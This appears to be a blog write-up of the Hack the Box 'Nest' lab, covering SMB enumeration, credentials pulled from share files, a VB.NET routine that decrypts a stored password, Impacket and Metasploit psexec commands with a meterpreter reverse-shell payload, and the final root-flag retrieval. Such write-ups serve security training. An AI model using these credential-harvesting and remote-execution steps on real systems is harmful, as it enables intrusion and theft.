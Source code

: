 +++
title = "Hack the Box: Nest"
date = 2023-01-13
description = "Hack the Box: Nest"
tags = [
    "Hack the Box"
]
categories = [
    "Hack the Box"
]
series = ["Hack the Box"]
+++

Hack the Box: Nest

<!--more-->

# Nest

## Enumeration

### Nmap

```
# sudo nmap -A -p 445,4386 -T4 -Pn -nvv nest.htb -e tun0 

PORT     STATE SERVICE       REASON          VERSION
445/tcp  open  microsoft-ds? syn-ack ttl 127
4386/tcp open  unknown       syn-ack ttl 127
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     Reporting Service V1.2
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     Reporting Service V1.2
|     Unrecognised command
|   Help: 
|     Reporting Service V1.2
|     This service allows users to run queries against databases using the legacy HQK format
|     AVAILABLE COMMANDS ---
|     LIST
|     SETDIR <Directory_Name>
|     RUNQUERY <Query_ID>
|     DEBUG <Password>
|_    HELP <Command>
```

enum4linux gives nothing

```
# enum4linux 10.10.10.178
```

```
# smbclient -L \\\\10.10.10.178\\
Enter WORKGROUP\robin's password: 

    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    Data            Disk      
    IPC$            IPC       Remote IPC
    Secure$         Disk      
    Users           Disk      
SMB1 disabled -- no workgroup available
```

We can find files in:

```
# smbclient \\\\nest.htb\\DATA
# smb: \Shared\Maintenance\> mget "Maintenance Alerts.txt"
# smb: \Shared\Templates\HR\> mget "Welcome Email.txt"
```

Inside Welcome\ Email.txt we have: `Username: TempUser Password: welcome2019`

## Foothold

```
# enum4linux -u TempUser -p welcome2019 10.10.10.178
# Domain Name: WORKGROUP
```

Nothing found from:

```
# sudo psexec.py WORKGROUP/TempUser:welcome2019@10.10.10.178
# sudo smbexec.py WORKGROUP/TempUser:welcome2019@10.10.10.178
# sudo wmiexec.py WORKGROUP/TempUser:welcome2019@10.10.10.178
# sudo secretsdump.py WORKGROUP/TempUser:welcome2019@10.10.10.178
# msf5 exploit(windows/smb/psexec
    # payload windows/x64/meterpreter/reverse_tcp
```

Let’s get back to smbclient then. `smbclient \\\\nest.htb\\DATA -U TempUser` then `recurse on` and we find in `config.xml` and `RU_config.xml`:

```
<Username>c.smith</Username>
<Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>

<File filename="C:\windows\System32\drivers\etc\hosts" />
<File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
<File filename="C:\Users\C.Smith\Desktop\todo.txt" />
```

smbclient \\10.10.10.178\Secure$ -U TempUser smb: > cd IT/Carl

smbget -rR smb://10.10.10.178/Secure$/IT/Carl -U TempUser On [https://dotnetfiddle.net/](https://dotnetfiddle.net/ "https://dotnetfiddle.net/") to get the decrypted password `C.Smith:xRxRxPANCAK3SxRxRx`

```
Imports System.Text
Imports System.Security.Cryptography
Public Class Utils
    Public Class ConfigFile
    Public Property Port As Integer
    Public Property Username As String
    Public Property Password As String

    Public Sub SaveToFile(Path As String)
                        Using File As New System.IO.FileStream(Path, System.IO.FileMode.Create)
            Dim Writer As New System.Xml.Serialization.XmlSerializer(GetType(ConfigFile))
            Writer.Serialize(File, Me)
        End Using
    End Sub

    Public Shared Function LoadFromFile(ByVal FilePath As String) As ConfigFile
        Using File As New System.IO.FileStream(FilePath, System.IO.FileMode.Open)
            Dim Reader As New System.Xml.Serialization.XmlSerializer(GetType(ConfigFile))
            Return DirectCast(Reader.Deserialize(File), ConfigFile)
        End Using
    End Function
  
End Class
    Public Shared Function DecryptString(EncryptedString As String) As String
        If String.IsNullOrEmpty(EncryptedString) Then
            Return String.Empty
        Else
            Return Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)
        End If
    End Function

    Public Shared Function Decrypt(ByVal cipherText As String, _
                                   ByVal passPhrase As String, _
                                   ByVal saltValue As String, _
                                    ByVal passwordIterations As Integer, _
                                   ByVal initVector As String, _
                                   ByVal keySize As Integer) _
                           As String
        Dim initVectorBytes As Byte()
        initVectorBytes = Encoding.ASCII.GetBytes(initVector)
        Dim saltValueBytes As Byte()
        saltValueBytes = Encoding.ASCII.GetBytes(saltValue)
        Dim cipherTextBytes As Byte()
        cipherTextBytes = System.Convert.FromBase64String(cipherText)
        Dim password As New Rfc2898DeriveBytes(passPhrase, _
                                           saltValueBytes, _
                                           passwordIterations)
        Dim keyBytes As Byte()
        keyBytes = password.GetBytes(CInt(keySize / 8))
        Dim symmetricKey As New AesCryptoServiceProvider
        symmetricKey.Mode = CipherMode.CBC
        Dim decryptor As ICryptoTransform
        decryptor = symmetricKey.CreateDecryptor(keyBytes, initVectorBytes)
                Dim memoryStream As System.IO.MemoryStream
                memoryStream = New System.IO.MemoryStream(cipherTextBytes)
        Dim cryptoStream As CryptoStream
        cryptoStream = New CryptoStream(memoryStream, _
                                        decryptor, _
                                        CryptoStreamMode.Read)
        Dim plainTextBytes As Byte()
        ReDim plainTextBytes(cipherTextBytes.Length)
        Dim decryptedByteCount As Integer
        decryptedByteCount = cryptoStream.Read(plainTextBytes, _
                                               0, _
                                               plainTextBytes.Length)
        memoryStream.Close()
        cryptoStream.Close()
        Dim plainText As String
        plainText = Encoding.ASCII.GetString(plainTextBytes, _
                                            0, _
                                            decryptedByteCount)
    System.Console.WriteLine(plainText)
    Return plainText
    End Function

Public Class SsoIntegration
    Public Property Username As String
    Public Property Password As String
End Class
    
    Sub Main()
        Dim test As New SsoIntegration With {.Username = "c.smith", .Password = Utils.DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")}
    End Sub
End Class
```

## Privilege Escalation

`smbclient \\10.10.10.178\Users -U C.Smith smb: \C.Smith> mget user.txt`

`/home/robin/HQK_Config_Backup.xml telnet 10.10.10.178 4386`

`> DEBUG WBQ201953D8w setdir … setdir LDAP showquery 2`

`Domain=nest.local Port=389 BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local User=Administrator Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4`

AvaloniaILSpy & DnSpy

![](/img/nest1.png)

`XtH4nkS4Pl4y1nGX`

`sudo smbclient -E -U Administrator \\nest.htb\c$ XtH4nkS4Pl4y1nGX -c [sudo] password for robin: Try “help” to get a list of possible commands. smb: > get \Users\Administrator\Desktop\root.txt`

`cat \\Users\Administrator\Desktop\root.txt 6594c2eb084bc0f08a42f0b94b878c41`